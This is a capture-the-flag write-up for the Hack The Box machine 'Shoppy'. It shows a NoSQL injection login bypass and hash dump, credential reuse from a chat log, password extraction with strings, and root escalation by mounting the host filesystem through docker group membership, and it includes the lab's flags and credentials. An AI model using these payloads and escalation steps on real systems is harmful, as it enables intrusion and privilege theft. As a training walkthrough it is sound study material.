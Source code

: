 ```yaml
---
title: "Shoppy from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Shoppy from HTB
add this to `/etc/hosts`
```
10.10.11.180 shoppy.htb
```
Access the site and we see that there is nothing.
Run `gobuster`for directory busting and `ffuf`for subdomains. `for fuf use /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`
Before that finishes find out on what `language`does site operate on.
Try to get `404`code and with that we can learn sum.
```
Cannot GET /help
```
`Cannot GET` searching that tells us that site runs on `Node-JS`
With `gobuster` we found `login`page. Go to that and then perform `nosql-injection`
```
admin'||'1'=='1 <---- in username
e.g. help <---- in password
```
Then `login`
Click `search for users`and then perform same injection but now in `url`. It has to be `url-encoded`.
`url-encoded`
```
http://shoppy.htb/admin/search-users?username=admin%27%7C%7C%271%27%3D%3D%271
```
Then you will get this.
```
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```
Go to `cracstation`and paste both password. You will get password for `josh`and it's : `remembermethisway`. You can't access `ssh`with this.
So then maybe there is an `subdomain`.
`ffuf`found `mattermost`subdomain so add it to `/etc/hosts`
```
10.10.11.180 mattermost.shoppy.htb
```
Then access it.
In `Deploy Machine`chat you will find this:
```
Hey @josh,

For the deploy machine,
you can create an account with these creds
 username: jaeger
 password: Sh0ppyBest@pp!
```
Go to `ssh`and log in with this `creds`.
***
User Flag is: c6acc5b48213051b19adc3ae540c7240
***
```bash
$ sudo -l
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
You'll need password for this `password-manager`you will find it with this:
```bash
strings -e l /home/deploy/password-manager
Sample
```
Then run it. You will get password for `deploy`. Become the `deploy`user.
```bash
id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
We are in `docker`group. With this you can always become the `root`
```bash
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # cd mnt
/mnt # chroot .
```
The command `docker run --rm -it -v /:/mnt alpine /bin/sh` is used to run a Docker container with the following options:

- **`docker run`**: This command is used to start a new Docker container.
- **`--rm`**: Automatically removes the container when it exits. This prevents unused containers from accumulating on your system.
- **`-it`**: Combines `-i` (interactive) and `-t` (pseudo-`TTY`), allowing you to interact with the container via the terminal.
- **`-v /:/mnt`**: This mounts the host machine's root directory (`/`) to the container's `/mnt` directory. Essentially, the container will have access to the entire file system of the host under the `/mnt` directory.
- **`alpine`**: This specifies the Docker image to use, in this case, `alpine`, which is a small, `minimalistic` Linux distribution.
- **`/bin/sh`**: This is the command to be run inside the container, starting a shell session (`/bin/sh`) in the Alpine container.

### **What This Command Does:**

1. It starts an Alpine Linux container.
2. It provides you with an interactive shell inside the container.
3. It gives the container access to the host machine's entire file system, mounted at `/mnt`.

### **Potential Risks:**

This command gives the container unrestricted access to your entire host file system, which can be dangerous if not handled with care, as it could potentially modify or delete critical files on the host system.
***
Root Flag is: 063a18189ade4a31fbf52b970fab80a1
***
![](/assets/images/Screenshot from 2024-08-14 18-07-58.png)
